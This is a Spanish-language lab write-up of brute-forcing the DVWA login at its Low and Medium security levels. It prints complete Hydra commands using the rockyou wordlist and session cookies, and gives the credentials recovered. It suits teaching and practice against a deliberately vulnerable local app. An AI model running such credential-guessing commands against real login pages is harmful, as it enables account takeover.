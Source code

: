 # Brute Force - DVWA

## Nivel de seguridad: Low

Al enviar el nombre de usuario y la contraseña, observamos que se utiliza un método **GET** para procesar el formulario.

Usaremos **Hydra** para realizar el ataque de fuerza bruta.

![Brute Force - Nivel Low](assets/brute_force_low.png)

**Comando usado:**
```bash
hydra -v -t 1 -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-get-form "/DVWA/vulnerabilities/brute/?username=USER&password=PASS&Login=Login:H=Cookie: PHPSESSID=54evtt2cercvq2jc5a7p6blf; security=low"
```

Hydra encuentra exitosamente las credenciales:
- **Usuario:** `admin`
- **Contraseña:** `password`

---

## Nivel de seguridad: Medium

Aunque el nivel de seguridad ahora es **medium**, el formulario sigue usando el método **GET**.

Volvemos a utilizar **Hydra** para realizar el ataque.

![Brute Force - Nivel Medium](assets/brute_force_medium.png)

**Comando usado:**
```bash
hydra -v -t 1 -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-get-form "/DVWA/vulnerabilities/brute/?username=USER&password=PASS&Login=Login:H=Cookie: PHPSESSID=4c5a2mcp3d6qk0487mt09a; security=medium"
```

Hydra logra romper la autenticación de nuevo:
- **Usuario:** `admin`
- **Contraseña:** `password`

Sin embargo, esta vez el ataque tarda **significativamente más** en completarse.

### Análisis adicional

Al analizar la funcionalidad de inicio de sesión, notamos que, en caso de intento fallido, la respuesta del servidor se retrasa **2 o 3 segundos**. Esto es una medida sencilla para dificultar ataques de fuerza bruta aumentando el tiempo de respuesta.

---

> **Nota:** En ambos casos fue importante capturar correctamente la cookie de sesión (`PHPSESSID`) y el nivel de seguridad para configurar Hydra de manera adecuada.
